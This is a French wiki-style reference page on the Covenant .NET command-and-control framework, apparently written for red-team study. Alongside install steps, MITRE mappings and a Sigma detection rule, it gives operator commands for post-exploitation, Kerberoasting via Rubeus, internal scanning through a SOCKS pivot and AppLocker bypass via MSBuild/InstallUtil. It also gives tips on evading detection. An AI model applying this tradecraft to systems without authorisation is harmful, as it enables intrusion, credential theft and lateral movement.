

# 🕹️ Covenant — Framework C2 .NET avec UI web

> [!info] **En 1 phrase**
> Covenant est un framework C2 open-source écrit en C#/.NET avec une interface web complète, qui gère des agents appelés « Grunts » via des launchers .NET (PowerShell, exe, dll, installutil).

---

## 🧾 Overview

| Champ | Valeur |
|---|---|
| Nom complet | Covenant (collaborative .NET C2 framework) |
| Description | Framework C2 .NET avec UI web (Razor + Angular) et API REST : gestion de listeners, launchers, agents « Grunts » et tâches post-exploitation |
| Catégorie | 🕹️ C2 & Post-Exploitation |
| Sous-catégorie | C2 & Implants .NET |
| Fonction principale | Command & control d'agents .NET en mémoire, génération de launchers, post-exploitation |
| Type d'outil | Framework serveur web (ASP.NET Core) + agents clients |
| Licence | GPL-3.0 |
| Open source / propriétaire | Open source |
| Langage(s) de programmation | C# (.NET Core), Razor, TypeScript/Angular (UI) |
| Développeur / organisation | Ryan Cobb (cobbr) |
| Projet officiel | cobbr/Covenant |
| Dépôt officiel | https://github.com/cobbr/Covenant |
| Documentation officielle | https://github.com/cobbr/Covenant/wiki |
| Date de création | 7 février 2019 |
| État du projet | maintenu faiblement (peu de commits ; l'auteur a annoncé en 2023-2024 ne pas pouvoir s'y investir régulièrement) |
| Dernière version connue | aucune release taguée (build depuis `master`) |
| Systèmes compatibles | Serveur : Linux/Windows (dotnet) · Cibles : Windows avec .NET Framework |

> [!note] Pour vérifier / compléter
> Covenant n'est **pas** référencé comme logiciel dans MITRE ATT&CK (pas d'ID S-####). L'attention de la communauté s'est déplacée vers [[Outil - Mythic]], [[Outil - Sliver]] et [[Outil - Havoc]], mais Covenant reste pédagogique pour comprendre les agents .NET.

---

## 🎯 Concept

Covenant centralise la gestion d'agents .NET (**Grunts**) depuis un navigateur : tableau de bord, gestion des listeners, des launchers, des sessions et des tâches, le tout via une API REST + UI Angular. C'est un outil de choix pour la red team quand on cible des environnements Windows où le framework .NET est présent (l'implant s'exécute en mémoire, sans écrire de fichier).

Il supporte plusieurs types de listeners (HTTP, HTTPS, GRPC, SMB) et des « GruntSocks » pour le pivoting. Les Grunts embarquent des fonctionnalités d'évasion : chargement d'assemblies en mémoire (`Assembly.Load`), `execute-assembly` (outils .NET en mémoire), et des profiles HTTP personnalisables (User-Agent, en-têtes, chemins) pour imiter du trafic légitime. Moins connu que Cobalt Strike ou Empire, il reste pertinent pour ses capacités d'injection directe via `dotnet` et sa gestion graphique. Le framework est entièrement open-source (C#/.NET Core, Razor + Angular) et l'ensemble est contrôlable via l'API REST, ce qui permet de l'automatiser.

C'est aussi un excellent **terrain d'apprentissage du tradecraft .NET** : launcher MSBuild/InstallUtil, assembly in-memory, AMSI bypass, kerberoasting via `execute-assembly`. Son développement ralenti en fait un choix discutable pour des opérations longues, mais une référence pour comprendre l'architecture « server web + agents .NET ».



---

## 🧠 Concepts fondamentaux

| Concept | Explication |
|---|---|
| Grunt | Agent .NET déployé sur la cible, exécuté en mémoire via `Assembly.Load`. Il se connecte à un listener et reçoit des tâches |
| Listener | Point d'écoute du C2 : types `HTTP`, `HTTPS`, `GRPC`, `SMB`. Définit l'hôte/port/URL que les Grunts vont contacter |
| Launcher | Code ou fichier de démarrage qui récupère puis exécute le Grunt (PowerShell, Binary exe/dll, Shellcode, MSBuild, InstallUtil, Regsvr32, wmic…) |
| `execute-assembly` | Tâche qui charge un assembly .NET en mémoire dans le processus du Grunt : exécuter Seatbelt, Rubeus, SharpHound… sans écriture disque |
| Profile HTTP | Template HTTP (User-Agent, en-têtes, chemins, « HttpRequestUrls ») appliqué aux launchers pour maquiller le trafic C2 |
| GruntSocks | Fonctionnalité de tunneling/pivoting : le Grunt agit en relais SOCKS pour atteindre des machines internes |
| Implant « stageless » vs « staged » | Stageless : Grunt complet embarqué dans le launcher. Staged : petit stager qui télécharge ensuite le Grunt complet |
| Délai de beacon | Intervalle entre deux callbacks du Grunt (configurable via `Delay`/`JitterPercent`) |

---

## 🛠️ Installation

### Debian / Ubuntu / Kali / Arch / Fedora

```bash
# Prérequis : SDK .NET Core 3.1 (le master cible netcoreapp3.1)
# Debian/Ubuntu/Kali : sudo apt install -y dotnet-sdk-3.1 · Arch : sudo pacman -S dotnet-sdk
# Fedora : SDK .NET officiel Microsoft (dépôt packages.microsoft.com)
git clone --recursive https://github.com/cobbr/Covenant.git && cd Covenant/Covenant
dotnet run
# Accès : https://localhost:7443 (HTTPS autosigné) — Premier accès : créer le compte admin
```

### macOS / Windows

```bash
# macOS : brew install --cask dotnet-sdk · Windows : SDK depuis https://dotnet.microsoft.com
git clone --recursive https://github.com/cobbr/Covenant.git && cd Covenant/Covenant
dotnet run
```

### Docker / Compilation

```bash
# Pas d'image officielle publiée ; build communautaire à valider :
# docker build -t covenant . depuis le dépôt ; docker run -p 7443:7443 covenant
# Compilation autonome : dotnet publish --configuration Release
# → binaire dans bin/Release/netcoreapp3.1/...
```

> [!warning] ⚠️ Prérequis & problèmes potentiels
> - Le master cible **.NET Core 3.1** (`netcoreapp3.1`) : avec seulement .NET 6+, `dotnet run` échoue. La branche `dev` passe à .NET 5.
> - `export DOTNET_SYSTEM_GLOBALIZATION_INVARIANT=1` si erreur ICU. Le clone doit être **récursif** (`--recursive`) pour la UI Angular.

---

## ⚙️ Configuration

La configuration se fait principalement dans l'**UI web** (et l'API REST), avec quelques fichiers côté serveur.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `appsettings.json` | Config serveur (connexion DB, options) | JSON | Base de données des opérations | `Covenant/Covenant/appsettings.json` |
| Listener `BindHost`/`BindPort` | Adresse/port d'écoute du listener | `0.0.0.0`, port | Définit l'URL de callback des Grunts | Host `10.10.14.5`, port `443` |
| Listener `Name` | Nom du listener | chaîne | Référence dans les launchers | `https-c2` |
| Grunt `Delay` | Intervalle entre callbacks (ms) | nombre | Cadence du beaconing | `5000` |
| Grunt `JitterPercent` | Aléa sur le delay | % | Désynchronise le trafic | `30` |
| Grunt `KillDate` | Date limite de fonctionnement | date | Éteint l'agent après opération | `2026-12-31` |
| Grunt `SpawnTo` | Processus cible pour la migration | chemin | Invisibilité process | `C:\Windows\System32\svchost.exe` |
| Profile HTTP `HttpRequestHeaders` | En-têtes HTTP personnalisés | JSON | Maquille le trafic C2 | User-Agent Chrome |
| Launcher `DotNetFrameworkVersion` | Version .NET cible | `v4.0.30319` / Core | Compatibilité de la cible | `v4.0.30319` |
| GruntSocks | Tunnel SOCKS vers une cible | hôte:port | Pivoting | `172.16.5.10:445` |

> [!note] À vérifier
> Les schémas exacts de `appsettings.json` et des endpoints de l'API REST évoluent ; les vérifier dans le wiki et le code source avant automatisation.

---

## 🏗️ Architecture interne

- **Serveur** : application **ASP.NET Core** (`Covenant/Covenant`) avec API REST, Entity Framework Core (base SQLite par défaut), interface Razor + **Angular** (sous-module `covenant/src/CovenantUI`).
- **UI & API** : tout est pilotable via HTTP/HTTPS sur le port **7443** par défaut : utilisateurs, listeners, launchers, grunts, tâches, événements, graph.
- **Listeners** : `HttpListener`, `HttpsListener`, `GrpcListener` (gRPC), `SmbListener` (pipes nommés). Chaque listener reçoit les callbacks HTTP(S)/gRPC/SMB des Grunts.
- **Launchers** : génération côté serveur de stagers/stageless : PowerShell, Binary (exe/dll), Shellcode, MSBuild (XML), InstallUtil, Regsvr32, wmic, MSHTA… selon le listener et les options choisies.
- **Grunt (implant)** : assembly .NET chargé en mémoire (`Assembly.Load`), communication chiffrée, tâches exécutées dans le processus hôte.
- **Grunts → mouvement latéral** : déploiement de nouveaux Grunts sur d'autres machines, `GruntSocks` pour le pivoting réseau.
- **Données** : chaque action génère un événement (`Event`) tracé et visualisable dans l'onglet `Graph`.

---

## ⌨️ Commandes

### Commandes principales

```bash
# Lancer le serveur
cd Covenant/Covenant && dotnet run
# Accès web : https://localhost:7443 → login puis First-Time setup
```

| Commande / Action | Objectif | Résultat attendu |
|---|---|---|
| `dotnet run` | Démarrer le serveur Covenant | UI web sur 7443 |
| `Listeners → Create` | Créer un listener (HTTP/HTTPS/GRPC/SMB) | Listener visible dans `Listeners` |
| `Launchers → Generate` | Générer un launcher (.NET) | One-liner ou fichier prêt à livrer |
| `Grunts` | Lister les agents connectés | Sessions, OS, identité, dernier callback |
| `Interact` | Console interactive sur un Grunt | Shell de tâches |
| `whoami` / `ls` | Tâches de base | Sortie de commande |
| `upload` / `download` | Transfert de fichiers | Fichier transféré vers/depuis la cible |
| `execute-assembly <exe> args` | Exécuter un assembly .NET en mémoire | Sortie de l'outil (Seatbelt, Rubeus…) |
| `GruntSocks` | Pivoter via un tunnel SOCKS | Accès réseau interne via proxychains |
| `Profiles` | Personnaliser User-Agent/en-têtes HTTP | Launchers maquillés |

> [!note] À vérifier
> L'API REST (jeton, listeners, tâches) est détaillée dans **🤖 Automatisation** ci-dessous ; les schémas exacts sont à confirmer sur le wiki avant automatisation.

---

## 🎚️ Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| Launcher `PowerShell` | One-liner PowerShell (staged/stageless) | Génération dans `Launchers` | Basic |
| Launcher `Binary` | exe/dll .NET à exécuter sur la cible | Génération puis `C:\Temp\grunt.exe` | Basic |
| Listener `HTTP` | Listener HTTP classique | Port 80, host 10.10.14.5 | Basic |
| Listener `HTTPS` | Listener TLS (autosigné) | Port 443 | Intermediate |
| Tâche `upload`/`download` | Transfert de fichiers | `download C:\Users\admin\Desktop\flag.txt` | Basic |
| Tâche `execute-assembly` | Outil .NET en mémoire | `execute-assembly Seatbelt.exe -group=user` | Intermediate |
| Grunt `Delay`/`JitterPercent` | Cadence du beacon | Delay 5000, jitter 30 | Intermediate |
| Listener `GRPC` | Transport gRPC | gRPC sur port custom | Advanced |
| Listener `SMB` | Beacon via pipes nommés (pivot) | SMB sur machine interne | Advanced |
| `GruntSocks` | Pivot SOCKS | `GruntSocks → 172.16.5.10:445` | Advanced |
| Launcher `MSBuild` | Proxy execution via MSBuild (lolbas) | Fichier `.xml` exécuté par MSBuild.exe | Expert |
| Launcher `InstallUtil` | Proxy execution via InstallUtil | `InstallUtil.exe /U file.dll` | Expert |
| Launcher `Shellcode` | Shellcode pour loader custom | Injecté par un exploit/dropper | Expert |
| `Profiles` custom | Maquillage HTTP complet | User-Agent, chemins, en-têtes | Expert |

> [!tip] Options les plus utiles au quotidien
> Listener HTTP/HTTPS simple, launcher PowerShell (rapide à livrer), `Delay`/`JitterPercent` (discrétion), `execute-assembly` (outils en mémoire), `GruntSocks` (pivot).

---

## 🧪 Exemples pratiques

### Beginner

```bash
# Objectif : premier Grunt opérationnel (détails pas à pas dans le Workflow ci-dessous)
cd Covenant/Covenant && dotnet run
# 1. https://localhost:7443 → créer le compte admin (First-Time setup)
# 2. Listeners → Create → HTTP (host 10.10.14.5, port 80)
# 3. Launchers → PowerShell → Generate → exécuter le one-liner sur la cible
# 4. Le Grunt apparaît dans Grunts → Interact → whoami
```

### Intermediate

```bash
# Objectif : post-exploitation en mémoire (console Interact du Grunt)
whoami
ls C:\Users\admin\Desktop
upload .\payload.dll C:\Windows\Temp\
download C:\Users\admin\Desktop\flag.txt
execute-assembly /opt/tools/Seatbelt.exe -group=user
```

### Advanced

```bash
# Objectif : pivoter via GruntSocks puis scanner le réseau interne
# UI : Grunt → GruntSocks → tunnel vers 172.16.5.10 (port SOCKS local)
# proxychains.conf : "socks5 127.0.0.1 <port>"
proxychains4 -q nmap -sT -Pn -p 445,3389 172.16.5.0/24
```

### Expert

```bash
# Objectif : contourner AppLocker via un lolbas signé
# Launchers → Binary → format MSBuild ou InstallUtil → Generate, puis :
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe <fichier>.xml
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U <fichier>.dll
```

---

## 🧪 Workflow complet (scénario pas à pas)

1. **Démarrer Covenant** : `dotnet run` dans `Covenant/Covenant`, ouvrir `http://localhost:7443`.
2. **Créer un compte** lors du premier accès (First-Time setup), puis se connecter.
3. **Créer un listener** : `Listeners` → `Create` → type `HTTP` ou `HTTPS`, host `10.10.14.5`, port `80` (ou `443`).
4. **Générer un launcher** : `Launchers` → `PowerShell` (simple à exécuter) → sélectionner le listener → `Generate`.
5. **Livrer le one-liner** sur la cible (phishing, exploit web, accès admin…).
6. **Récupérer le Grunt** : il apparaît dans `Grunts` → `Interact` → console interactive (ex. `whoami`, `ls C:\Users\`, `execute-assembly .\Seatbelt.exe -group=user`).
7. **Pivoter / maquiller** : `GruntSocks` pour traverser un réseau interne, `Profile` pour masquer le trafic (User-Agent légitime).
8. **Nettoyer** : tâche `Remove` du Grunt, suppression des launchers et du listener en fin d'opération.

---

## 🎬 Scénarios avancés

### Scénario 1 : chargement en mémoire avec execute-assembly

Exécuter des outils .NET sans toucher le disque pour contourner la signature statique :

```text
execute-assembly /opt/tools/Seatbelt.exe -group=user
execute-assembly /opt/tools/Rubeus.exe kerberoast /outfile:hashes.txt
download C:\Users\admin\AppData\Local\Temp\hashes.txt
```

### Scénario 2 : pivoting GruntSocks vers un réseau interne

```text
# Depuis le Grunt compromis
GruntSocks → Ajouter un tunnel vers 172.16.5.10
# Puis scanner le réseau interne via le tunnel
proxychains4 -q nmap -sT -Pn -p 445,3389 172.16.5.0/24
```

---

## 🛡️ Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Livraison initiale | Launcher PowerShell/HTA/Office livré par phishing ou exploitation |
| Post-exploitation | Exécution de tâches, upload/download, `execute-assembly` |
| Énumération AD | Rubeus/Seatbelt/SharpHound en mémoire |
| Mouvement latéral | Nouveaux Grunts sur d'autres machines, GruntSocks |
| Persistance | Beaconing configurable (Delay/Jitter, KillDate) |
| Rapport | Historique des événements, graphe des sessions |

---

## 🎯 MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Execution | Command and Scripting Interpreter : PowerShell | T1059.001 | Launchers PowerShell et tâches | Logging PowerShell (ScriptBlock), AMSI | CLM, AMSI, logging |
| Execution | Trusted Developer Utilities Proxy Execution : MSBuild / Signed Binary Proxy Execution : InstallUtil | T1127.001 / T1218.004 | Launchers MSBuild/InstallUtil (lolbas) | Process creation MSBuild/InstallUtil anormaux | AppLocker/WDAC |
| Defense Evasion | Obfuscated Files or Information / Process Injection | T1027 / T1055 | Obfuscation des launchers ; chargement d'assemblies en mémoire | Scripts encodés, appels VirtualAllocEx/WriteProcessMemory | AMSI, EDR comportemental |
| Command and Control | Application Layer Protocol : Web Protocols | T1071.001 | Listeners HTTP(S)/gRPC | User-Agents/chemins atypiques | Proxy authentifié |
| Command and Control | Remote Access Software | T1219 | Grunt/GruntSocks = accès distant | Flux SOCKS/beacons sortants | Egress filtering |
| Discovery | System Information Discovery | T1082 | Modules d'énumération | Commandes d'énumération | Restriction postes |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> Covenant n'a pas d'ID software dans ATT&CK : mapper ses **comportements** (PowerShell, MSBuild/InstallUtil, injection .NET, HTTP) plutôt que l'outil lui-même.

---

## 🛡️ Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Dépendance .NET | Covenant exige le runtime .NET sur la cible : surveiller les processus `dotnet` et les charges .NET in-memory |
| AMSI / ETW | Chargement d'assemblies via `Add-Type`/`Assembly.Load` tracé : activer le logging PowerShell et les refus AMSI |
| Signature | Grunts/launchers non modifiés reconnaissables par signatures publiques : recompiler et personnaliser les `Profiles` |
| Trafic | HTTP(S) avec User-Agent custom : filtrer les sorties et corréler avec le DNS |
| Lolbas | `Regsvr32`, `InstallUtil`, `MSBuild`, `Mshta` (processus signés) utilisés comme proxy d'exécution |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Sigma — Windows : proxy execution via InstallUtil / MSBuild + invocation in-memory
# Exemple pédagogique basé sur SigmaHQ "susp_suspicious_installutil"
title: Suspicious .NET Proxy Execution (Covenant-like)
id: a2f7c1e9-3b1a-4c2d-9e5f-6d0c1b2a3e4f
status: test
logsource:
    category: process_creation
    product: windows
detection:
    selection_proxy:
        Image|endswith:
            - '\InstallUtil.exe'
            - '\MSBuild.exe'
        CommandLine|contains:
            - '/U'
            - '/logfile='
            - 'v4.0.30319'
    selection_memory:
        CommandLine|contains:
            - 'Assembly.Load'
            - 'System.Reflection'
            - 'Add-Type'
    condition: selection_proxy or selection_memory
falsepositives:
    - Legitimate software installation
    - Administrative scripts
level: high
```

> [!note] À vérifier
> Exemples pédagogiques : adapter les patterns à vos chaînes et surveiller aussi les écritures de fichiers temporaires .dll/.xml suspects et les connections HTTP longues.

---

## 🤖 Automatisation

```bash
# Bash — vérifier que le serveur Covenant répond (healthcheck)
curl -k -s -o /dev/null -w "%{http_code}\n" https://localhost:7443/api/users

# Automatiser la création d'un listener via l'API (schéma à confirmer)
curl -k -u "user:pass" -X POST https://localhost:7443/api/listeners \
  -H "Content-Type: application/json" \
  -d '{"name":"auto-http","bindAddress":"0.0.0.0","bindPort":8080,"connectAddresses":["10.10.14.5"]}'
```

```python
# Python — utiliser l'API REST pour lister les Grunts et envoyer une tâche
# (squelette conceptuel : endpoints à vérifier sur le wiki)
import requests, urllib3
urllib3.disable_warnings()
base = "https://localhost:7443/api"
s = requests.Session(); s.verify = False
r = s.post(f"{base}/tokens", auth=("user", "pass"))
# token = r.json().get("token") ...
grunts = s.get(f"{base}/grunts").json()
for g in grunts:
    print(g["name"], g.get("id"), g.get("hostname"))
```

> [!note] À vérifier
> Les chemins exacts des endpoints REST et les schémas JSON sont documentés dans le wiki et le code (`Covenant/API/`) : valider avant automatisation en production.

---

## 📤 Output et parsing

L'UI centralise les sorties ; l'API REST expose les données en JSON (grunts, tasks, events, hosts).

```bash
# Récupérer la liste des événements (API REST) et l'afficher en JSON
curl -k -u "user:pass" https://localhost:7443/api/events | jq '.[].message'
# Compter les tâches par état
curl -k -u "user:pass" https://localhost:7443/api/tasks | jq 'group_by(.status) | map({status: .[0].status, count: length})'
```

```python
# Python — parser la sortie JSON des tâches
import requests, urllib3
urllib3.disable_warnings()
tasks = requests.get("https://localhost:7443/api/tasks",
                     auth=("user", "pass"), verify=False).json()
for t in tasks:
    if t.get("status") == "Completed":
        print(t.get("name"), "->", str(t.get("output"))[:120])
```

---

## 🔗 Intégrations

```text
Phishing/exploit → launcher PowerShell → Grunt → listener HTTP/SMB → Covenant UI → Rubeus/Seatbelt → GruntSocks → proxychains → nmap interne
```

- [[Tools|🧰 Outils]] global
- [[Outil - Rubeus|🎫 Rubeus]] / [[Techniques/Kerberoasting|🔥 Kerberoasting]] — via `execute-assembly`
- [[Outil - BloodHound|🩸 BloodHound]] — SharpHound en mémoire
- [[Outil - Mimikatz|👤 Mimikatz]] — via assembly en mémoire (variantes)
- [[Techniques/Pass-the-Hash|🔑 Pass-the-Hash]] — mouvement latéral post-récolte
- [[Outil - Nmap|🕵️ Nmap]] — scan du réseau interne via GruntSocks/proxychains
- [[Techniques/Privilege Escalation Windows|⬆️ PrivEsc Windows]] — cibles post-exploitation
- [[Techniques/Reverse Shells|🐚 Reverse Shells]] — concepts de livraison d'agents

---

## 🔄 Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| [[Outil - Mythic]] | Modulaire (payload types), agents cross-platform, maintenu | Plus lourd (Docker/PostgreSQL) | Red team longue durée |
| [[Outil - Sliver]] | Go, mTLS/WireGuard/DNS, très maintenu | Pas de GUI web native (CLI) | C2 moderne et robuste |
| [[Outil - Havoc]] | GUI proche de Cobalt Strike, gratuit | Dépôt **archivé** (fév. 2026) | Lab / formations |
| [[Outil - PowerShell Empire]] | Huge bibliothèque de modules, actif (BC-Security) | PowerShell-centric, bruit AMSI | Post-exploitation PowerShell |
| Cobalt Strike | Référence du marché, malleable C2 | Payant, licence onéreuse | Red team pro |

> **Quand utiliser Covenant plutôt que Mythic/Sliver ?** Pour l'apprentissage du **tradecraft .NET** (launchers MSBuild/InstallUtil, assemblies in-memory) et une UI web simple. Pour une opération réelle, préférer un C2 maintenu (Sliver/Mythic/Empire).

---

## ⚡ Performance

- Serveur léger : ASP.NET Core + SQLite, adapté à une VM 1-2 vCPU pour quelques dizaines de Grunts.
- Chaque Grunt = un callback périodique (Delay) ; réduire la cadence réduit le bruit réseau mais retarde les commandes.
- La génération des launchers se fait à la demande (compilation .NET côté serveur) : peut prendre quelques secondes.
- Le chargement d'assemblies (`execute-assembly`) consomme la mémoire du processus hôte : surveiller `svchost`/processus cibles.

> [!note] À vérifier
> Pas de benchmark officiel publié. Ces ordres de grandeur sont indicatifs (usage lab et retours communautaires).

---

## 🛠️ Troubleshooting

### Common problems

#### Problème : `dotnet run` échoue (« You must install or update .NET »)

- **Cause** : le master cible `netcoreapp3.1`, pas .NET 6+.
- **Solution** : installer le runtime/SDK .NET Core 3.1 (ou utiliser la branche `dev` en .NET 5). **Vérification** : `dotnet --list-runtimes`.

#### Problème : erreur ICU « Couldn't find a valid ICU package »

- **Cause** : environnement sans ICU (Linux minimal).
- **Solution** : `export DOTNET_SYSTEM_GLOBALIZATION_INVARIANT=1`. **Vérification** : relancer `dotnet run`.

#### Problème : le Grunt ne se connecte pas

- **Cause** : runtime .NET absent côté cible, listener mal configuré (host non joignable), ou port bloqué.
- **Solution** : vérifier le framework .NET cible avant de générer le launcher ; tester le listener avec `curl` ; ouvrir le port. **Vérification** : le Grunt apparaît dans `Grunts`.

#### Problème : `execute-assembly` échoue ou plante le processus

- **Cause** : assembly incompatible (architecture, .NET Core vs Framework) ou EDR.
- **Solution** : tester en lab sur une VM à jour ; utiliser la version Framework cible. **Vérification** : sortie de la tâche dans l'UI.

#### Problème : UI Angular manquante (page blanche)

- **Cause** : sous-modules non clonés.
- **Solution** : re-cloner avec `git clone --recursive` ou `git submodule update --init --recursive`. **Vérification** : le dossier `src/CovenantUI` est peuplé.

---

## 🔐 Sécurité de l'outil

- **Cadre légal** : framework C2 à n'utiliser que sur des cibles autorisées.
- **Certificat** : HTTPS autosigné sur 7443 : ne pas exposer la UI sur Internet sans proxy/reverse et MFA.
- **Identifiants** : le compte admin contrôle toute l'opération : politique de mots de passe forts, accès restreint à l'équipe.
- **Personnalisation** : les signatures par défaut sont publiques : recompiler les Grunts, modifier les `Profiles` HTTP et les noms de tâches.
- **Traces** : les launchers non personnalisés sont détectés (AMSI, signatures) : tester l'évasion dans un lab avant engagement.
- **Base de données** : l'historique des opérations (SQLite) est sensible : protéger et sauvegarder le serveur.

---

## ⚠️ Limitations

- **Développement ralenti** : pas de release taguée, .NET Core 3.1/5 (EOL), incompatibilités avec les SDK .NET récents.
- Nécessite le **runtime .NET** sur la cible (Windows .NET Framework requis) : pas d'implant natif C/Go.
- Fonctionnalités d'évasion limitées face aux EDR modernes (AMSI intégré à Windows).
- Pivoting moins confortable que Ligolo-ng/Sliver (GruntSocks par tunnel, pas d'interface TUN).
- Pas de mapping MITRE ATT&CK intégré ni de reporting automatisé avancé.

---

## 📋 Cheatsheet

```bash
# Cloner avec sous-modules et lancer
git clone --recursive https://github.com/cobbr/Covenant.git && cd Covenant/Covenant
dotnet run
# UI : https://localhost:7443

# Workflow type
# Listeners → Create (HTTP/HTTPS)
# Launchers → Generate (PowerShell / Binary / MSBuild / InstallUtil)
# Grunts → Interact
whoami
execute-assembly /opt/tools/Seatbelt.exe -group=user
execute-assembly /opt/tools/Rubeus.exe kerberoast /outfile:C:\Temp\h.txt
download C:\Temp\h.txt
# Pivot
GruntSocks → 172.16.5.10:445
proxychains4 -q nmap -sT -Pn -p 445,3389 172.16.5.0/24
```

---

## ⚡ Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | C2 .NET avec UI web : listeners, launchers, agents « Grunts », post-exploitation |
| **Quand l'utiliser ?** | Environnements Windows avec .NET, pour apprendre/faire du tradecraft .NET en mémoire |
| **Commande principale** | `dotnet run` puis https://localhost:7443 |
| **Alternative principale** | [[Outil - Sliver]] / [[Outil - Mythic]] / [[Outil - PowerShell Empire]] |
| **Concepts importants** | Grunt, listener HTTP/SMB, launcher, `execute-assembly`, GruntSocks, Profile HTTP |
| **Liens associés** | [[Techniques/Privilege Escalation Windows\|⬆️ PrivEsc Windows]] · [[Techniques/Kerberoasting\|🔥 Kerberoasting]] · [[Techniques/Pass-the-Hash\|🔑 Pass-the-Hash]] |

---

## 🔍 Détection & Défense

> Les signes observables, règles Sigma/YARA et défenses détaillées figurent dans la section **🛡️ Defensive Security** ci-dessus. Réflexes : surveiller `InstallUtil.exe -U`/`MSBuild.exe` sur .xml inconnu, les charges .NET in-memory (`dotnet`, `Assembly.Load`), les pipes SMB inconnus (Sysmon EID 17/18) et le HTTP(S) sortant régulier avec UA custom.

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Tips**
> - Personnalisez les **Profiles** (User-Agent, chemins, en-têtes) pour chaque opération : un UA par défaut est un signal immédiat pour un SOC.
> - Utilisez `execute-assembly` pour Rubeus/Seatbelt/SharpHound : rien d'écrit sur le disque.
> - Configurez `Delay`/`JitterPercent` (ex. 5000 ms / 30 %) pour un trafic moins régulier.
> - Vérifiez le framework .NET de la cible avant de générer le launcher.
> - Testez les launchers `InstallUtil`/`MSBuild` dans un lab : les EDR surveillent ces exécutables signés.

> [!warning] ⚠️ **Pièges**
> - Covenant nécessite .NET sur la cible ; sans .NET (ou .NET Core seul), le Grunt ne se connecte pas.
> - Le master exige .NET Core 3.1 : `dotnet run` échoue sur les SDK récents.
> - Développement ralenti : vérifier que les fonctionnalités (gRPC, SMB) fonctionnent sur votre version.
> - Signatures publiques des launchers par défaut : recompiler avant usage réel.
> - Ne pas exposer la UI 7443 sur Internet (accès admin total, certificat autosigné).

---

## 📚 References

### Official

- GitHub officiel : https://github.com/cobbr/Covenant
- Wiki / documentation : https://github.com/cobbr/Covenant/wiki
- Page du projet (cobbr.io) : https://cobbr.io/Covenant.html
- C2Bridge (API d'interop) : https://github.com/cobbr/C2Bridge

### Security references

- MITRE ATT&CK — T1059.001 PowerShell : https://attack.mitre.org/techniques/T1059/001/
- MITRE ATT&CK — T1127.001 MSBuild : https://attack.mitre.org/techniques/T1127/001/
- MITRE ATT&CK — T1218.004 InstallUtil : https://attack.mitre.org/techniques/T1218/004/
- NCSC — Joint report on publicly available hacking tools (Empire/outils publics) : https://www.ncsc.gov.uk/report/joint-report-on-publicly-available-hacking-tools

### Community

- HackTricks — Covenant C2 : https://book.hacktricks.xyz/redteam/pentesting-methodology/covenant-c2
- SpecterOps / blog tradecraft .NET (ex. « Tradecraft Tuesday ») : https://posts.specterops.io
- Lolbas (Living Off The Land Binaries and Scripts) : https://lolbas-project.github.io

---

➡️ **Liens :** [[Tools|🧰 Outils]] · [[Techniques/Reverse Shells|🐚 Reverse Shells]] · [[Techniques/Pivoting et Tunneling|🌉 Pivoting]] · [[Techniques/Privilege Escalation Windows|⬆️ PrivEsc Windows]]
